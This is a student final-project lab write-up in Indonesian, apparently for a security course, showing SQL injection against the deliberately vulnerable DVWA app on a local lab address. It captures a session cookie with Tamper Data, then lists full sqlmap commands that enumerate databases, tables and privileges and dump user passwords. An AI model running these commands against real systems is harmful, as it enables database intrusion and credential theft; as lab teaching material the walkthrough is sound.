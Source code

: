 # Tugas Final Project

### Anggota Kelompok

|Nama      |NRP    |
|---|---|
Rian Danis  | 5114100084
Naufan Arifie | 5114100136
Dimas Hirda P | 5114100147


### DVWA

### Lesson 7

#### 1. Set level sekuritas dvwa menjadi low
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%207/set_secure_low.PNG)

#### 2. Buka menu sql injection dan jalankan tamper data
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%207/open_sql_injection.PNG)

![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%207/open_tamper_data.PNG)

#### 3. Ambil Cookie dan Referer
Cookie dan Referer ini nantinya akan digunakan untuk breach sekuritas

Masukkan angka 1 di sql injection
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%207/1.PNG)

Uncheck kolom "Continue Tampering"
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%207/uncheck_continue.PNG)

Buka tamper data, dan pilih input method GET ke 2
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%207/pilih_ke_2.PNG)

Ambil data bagian referer dan cookie, save ke leafpad
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%207/Copy_cookie_refere.PNG)

#### 4. Menggunakan sqlmap
```bash
sqlmap -u "http://192.168.1.32/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=bc78fc501dc580a7af78f65f70d296b8; security=low" -b --current-db --current-user
```
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%207/command_sqlmap.PNG)

Isi semua pertanyaan dengan "Y"

![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%207/Y.PNG)

Ganti PHPSESSID sesuai dengan yang didapatkan dari cookie hasil tamper data
hasil command diatas akan mereturn database user untuk db saat ini yaitu dvwa

![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%207/result_db_user.PNG)

Command berikutnya akan memberikan user dan password jika berhasil

```bash
sqlmap -u "http://192.168.1.32/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=bc78fc501dc580a7af78f65f70d296b8; security=low" --string="Surname" --users --password
```
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%207/result_password_user.PNG)

Command berikutnya akan memberikan level privileges suatu user

```bash
sqlmap -u "http://192.168.1.32/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=bc78fc501dc580a7af78f65f70d296b8; security=low" -U db_hacker --privileges
```
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%207/priviliges_result.PNG)

Command berikutnya akan menunjukkan semua list databases

```bash
sqlmap -u "http://192.168.1.32/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=bc78fc501dc580a7af78f65f70d296b8; security=low" --dbs
```
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%207/db_list_result.PNG)

Command berikutnya akan menunjukkan semua isi dari tabel dvwa

```bash
sqlmap -u "http://192.168.1.32/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=bc78fc501dc580a7af78f65f70d296b8; security=low" -D dvwa --tables
```
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%207/dvwa_content_result.PNG)

Command berikutnya akan menunjukkan semua isi dari kolom users tabel dvwa

```bash
sqlmap -u "http://192.168.1.32/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=bc78fc501dc580a7af78f65f70d296b8; security=low" -D dvwa -T users --columns
```
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%207/dvwa_user_columns_result.PNG)

Command berikutnya akan menunjukkan password dari tiap user

```bash
sqlmap -u "http://192.168.1.32/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=bc78fc501dc580a7af78f65f70d296b8; security=low" -D dvwa -T users -C user,password --dump
```
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%207/obtain_dvwa_users_password_result.PNG)

Melihat file output

```bash
output/* -print | xargs ls -l
```
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%207/cek_output_file.PNG)













